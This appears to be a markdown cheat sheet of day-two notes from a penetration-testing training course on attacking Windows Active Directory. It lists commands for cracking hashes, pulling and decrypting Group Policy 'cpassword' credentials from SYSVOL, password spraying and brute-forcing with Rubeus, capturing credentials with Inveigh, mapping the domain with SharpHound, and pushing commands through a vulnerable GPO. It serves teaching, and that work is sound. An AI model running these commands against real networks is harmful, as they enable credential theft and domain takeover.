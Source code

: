 []: # Day 2 notes from Light Pentest LITE (Live Interactive Training Experience)
[]: # More information at https://7minsec.com/services/training/#lplite

# Cracking hashes: part 2
Cracking hashes - basic syntax

```
hashcat name-of-hash-file-to-crack.txt wordlist.txt
```

# Sniping cleartext creds from GPOs
Finding vulnerable GPOs with decryptable "cpassword" values:
```
findstr /S /I cpassword \\tangent.town\sysvol\tangent.town\policies\*.xml
```

Using *Get-GPPPassword.ps1* to find and decrypt the passwords:
```
Import-Module .\Get-GPPPassword.ps1 
Get-GPPPassword.ps1
```
# CrackMapExec prep
Getting registry "tweaked" to make CME more pretty:
```
reg.exe add HKCU\Console /f /v VirtualTerminalLevel /t reg_dword /d 1
``` 
# CrackMapExec: validating domain credentials
Basic CME syntax:
```
python cme smb IP.OF.A.DOMAINCONTROLLER -u USERNAME -p PASSWORD
```

# Password spraying with Rubeus
Basic spraying:
```
Rubeus.exe brute /password:PASSWORD-YOU-WANNA-SPRAY-WITH /outfile:output.txt
```
Example:
```
Rubeus.exe brute /password:Summer2021 /outfile:summer2021.txt
```

BRUTE-spraying a specific user with a list of passwords (careful!) and saving any valid creds to a file:
```
Rubeus.exe brute /user:USER-YOU-WANT-TO-SPRAY /password:TEXT-FILE-FULL-OF-PASSWORDS.txt /outfile:output.txt
```

# Capturing credentials with Inveigh
Run as an admin prompt:
```
Inveigh.exe -nbns y -llmnr y -mdns y
```

# BloodHound: setting up Neo4j
Run as an admin prompt:
```
neo4j console
```

# SharpHound: data collection
```
sharphound -c all -d tangent.town
```

# Exploiting Group Policy Objects
A sample using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse):

```
SharpGPOAbuse.exe --addcomputertask --taskname "NAME OF YOUR TASK" --author "NAME OF AUTHOR" --command "YOUR COMMAND" --arguments "YOUR ARGUMENTS" --gponame "NAME OF THE VULNERABLE GPO" 
```
